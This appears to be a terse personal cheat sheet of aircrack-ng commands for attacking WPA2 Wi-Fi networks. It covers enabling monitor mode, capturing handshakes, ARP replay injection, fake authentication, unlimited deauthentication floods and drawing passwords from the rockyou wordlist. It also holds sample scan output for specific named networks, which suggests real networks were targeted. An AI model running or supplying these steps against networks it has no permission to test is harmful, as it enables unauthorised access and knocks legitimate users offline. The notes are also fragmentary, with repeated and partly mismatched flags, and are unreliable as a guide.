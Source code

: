 


`airmon-ng start wlan0`

get BSSID
`airodump-ng wlan0mon`

start capturing packets
`airodump-ng wlan0mon --bssid <bssid> --channel <#> --write crackThis`    // -j flag for hashcat output

Inject:

get mac MAC
`aireplay-ng --arpreplay wlan0mon -e <ESSID> -h <BSSID>`


fake authentication
`aireplay-ng --fakeauth 0 -a <BSSID> wlan0mon -h <mac>`


deauthorize
`aireplay-ng --deauth 0 -e <ESSID> wlan0mon`


look at aireplay results
`aireplay-ng --arpreplay wlan0mon -e <ESSID> -h <BSSID>`

head /usr/share/wordlists/rockyou.txt -n 10000 | shuf -n 5 -

`<mac address>  -56       13        0    0   4  360   WPA2 CCMP   PSK  illuminati `


`airodump-ng wlan0mon --bssid <mac address> --channel 4 --write crackThis`


`aireplay-ng --arpreplay wlan0mon -e illuminati -h <mac address>`

`<mac address>`

`aireplay-ng --fakeauth 0 -a <mac address> wlan0mon -h <mac address>`

`aireplay-ng --deauth 0 -e illuminati wlan0mon`

``` bash
airodump-ng wlan0mon --bssid <mac address> --channel 1 --write crackThisOne

aireplay-ng --arpreplay wlan0mon -e Max -h <mac address>

aireplay-ng --fakeauth 0 -a <mac address> wlan0mon -h <mac address>

<mac address>  -31        2        0    0   1  130   WPA2 CCMP   PSK  <network name>
```

